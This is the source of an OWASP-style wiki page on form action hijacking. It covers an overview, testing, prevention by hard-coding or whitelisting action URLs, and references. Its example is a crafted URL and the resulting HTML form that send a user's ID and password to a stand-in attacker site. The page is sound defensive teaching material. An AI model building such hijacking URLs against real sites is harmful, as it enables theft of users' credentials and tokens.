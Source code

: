 ```yaml
---

layout: col-sidebar
title: Form action hijacking.md
author: 
contributors: 
permalink: /attacks/Form_action_hijacking
tag: attack, Form action hijacking.md
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

    https://vulnerablehost.com/?url=https://attackersite.com

Source:

    <form name="form1" id="form1" method="post" action="https://attackersite.com">
        <input type="text" name="id" value="user name">
        <input type="password" name="pass" value="password">
        <input type="submit" name="submit" value="Submit">
    </form>

## References

  - [Common Weakness Enumeration - CWE-20: Improper Input
    Validation](https://cwe.mitre.org/data/definitions/20.html)
  - [PortSwigger: Form action hijacking
    (reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
  - [PortSwigger: Form action hijacking
    (stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)

[Category:Input Validation
Vulnerability](Category:Input_Validation_Vulnerability "wikilink")
[Category:OWASP Top Ten
Project](Category:OWASP_Top_Ten_Project "wikilink") [Category:
Attack](Category:_Attack "wikilink")